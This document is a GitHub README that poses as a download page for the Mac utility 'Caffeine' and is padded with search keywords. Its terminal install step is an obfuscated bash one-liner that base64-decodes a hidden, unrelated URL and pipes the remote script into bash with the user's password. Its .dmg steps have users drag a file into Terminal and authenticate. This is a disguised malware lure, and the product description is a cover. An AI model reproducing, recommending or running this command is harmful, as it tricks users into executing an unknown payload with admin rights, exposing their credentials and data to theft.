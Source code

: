 # ☕ Caffeine for Mac – Keep Your Mac Awake & Alert

![Caffeine Icon](https://www.caffeine-app.net/images/sequoia/caffeine-2x.png)  


---

## 🧰 Download

[![⬇️ Download Now](https://img.shields.io/badge/Caffeine-Download%20%20-blue?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/caffeine)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🔎 What is Caffeine for Mac?

**Caffeine for Mac** is a minimal, single-purpose app that stops your Mac from automatically sleeping, dimming the display, or starting the screen saver. It’s perfect for users who need their computer to stay awake during long processes like downloads, backups, coding, or presentations.

When you run the app, a coffee cup icon appears in your Mac’s menu bar. Clicking the icon toggles the app’s behavior – a full cup means your Mac will stay awake, an empty cup means sleep mode is enabled as usual.

Caffeine uses almost no system resources and doesn’t interfere with performance. It’s an ideal tool for users who want simple functionality without bloated software or complicated settings. Whether you're working on a project, watching a video, or preventing timeouts, Caffeine is your no-fuss companion for staying awake.

It also supports modern macOS versions including **macOS Monterey**, **Ventura**, **Sonoma**, and Apple Silicon (M1/M2/M3).

---

![Caffeine Screenshot](https://static.macupdate.com/screenshots/272527/m/caffeine-screenshot.png?v=1596785532)

---

## 🚀 Features

- ☕ One-click toggle to prevent sleep and screen dimming
- 🖥️ Ideal for presentations, downloads, or unattended sessions
- 💾 Lightweight: consumes negligible resources
- 🧩 Supports Intel & Apple Silicon (M1/M2/M3)
- ⚙️ Runs in the background from the macOS menu bar
- ⏱️ Optional timer mode to keep the Mac awake for a limited time
- ✅ Compatible with **macOS High Sierra** through **Sonoma**

---

## 🖥️ System Requirements

- macOS 10.10 or later (Intel or Apple Silicon)
- Supports **macOS High Sierra**, **Mojave**, **Catalina**, **Big Sur**, **Monterey**, **Ventura**, and **Sonoma**

---

## 💬 Keywords

`caffeine mac`, `caffeine app mac`, `caffeine application mac`, `caffeine for macbook`, `caffeine mac os`, `caffeine macbook app`, `mac caffeinate`, `download caffeine for mac`, `caffeine osx`, `mac os caffeine app`, `app caffeine mac`, `caffeine app download mac`, `caffeinated for mac`, `caffeine app for mac free download`, `caffeine app mac download`, `caffeine app mac m1`, `caffeine app macos`, `caffeine for mac free download`, `caffeine for mac m1`, `caffeine for macos`, `caffeine mac install`, `caffeine mac m1`, `caffeine program mac`, `caffeine software for mac`, `caffeine software mac`, `install caffeine mac`, `man caffeinate`

---

